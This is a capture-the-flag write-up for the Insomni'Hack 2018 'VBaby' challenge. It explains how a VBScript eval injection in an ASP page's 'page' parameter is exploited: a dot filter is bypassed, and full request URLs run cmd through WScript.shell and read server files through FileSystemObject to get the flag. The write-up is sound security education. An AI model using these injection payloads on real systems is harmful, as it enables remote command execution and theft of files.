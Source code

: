 ```yaml
---
title: Insomni'Hack 2018 - VBaby
date: 2018-03-25 21:00:00 +0100
authors: qlemaire
---
```


# {{page.title}}
Solves: 22 / Points: 137

## Challenge description
> The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `Eval(Request("cmd"))` and putting the payload within `cmd` parameter. Indeed, only the `page` parameter content is filtered.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we enumerate files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder]({{ site.url }}/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag]({{ site.url }}/assets/reading-flag.png)

{% capture page_authors %}{{ page.authors }}{% endcapture %}
{% include authors.html authors=page_authors %}